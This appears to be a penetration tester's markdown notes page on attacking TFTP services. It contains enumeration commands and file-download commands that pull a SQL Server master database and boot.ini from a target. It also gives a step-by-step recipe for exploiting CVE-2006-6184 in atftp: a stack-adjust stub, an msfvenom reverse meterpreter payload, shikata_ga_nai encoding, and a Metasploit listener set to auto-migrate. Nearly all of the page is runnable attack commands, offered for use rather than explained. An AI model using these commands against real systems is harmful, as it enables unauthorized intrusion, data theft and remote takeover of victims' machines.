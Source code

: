 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```

#### tftp.py

```bash - kali
pip install tftpy
```

```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/$TARGET/master.mdf", timeout=5)

#client.upload("filename to upload", "/local/path/file", timeout=5)
```

#### atftp
```bash - kali
sudo apt install atftp
```

```bash - kali
atftp -g -r "C:\boot.ini" $TARGET
```

If you are after a path that has spaces, try using [[Abbreviated dir]]'s.

https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py

==READ THE EXPLOIT STEPS VERY CAREFULLY!!==

1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```

2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```

3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```

4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```

Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

![[Pasted image 20220406211356.png | 1200]]

#### Metasploit Listener

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```

```bash - kali
set ExitOnSession false
```

```bash - kali
set AutoRunScript post/windows/manage/migrate
```

```bash - kali
set lhost
```

```bash - kali
set lport
```

```bash - kali
exploit -j
```

```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```
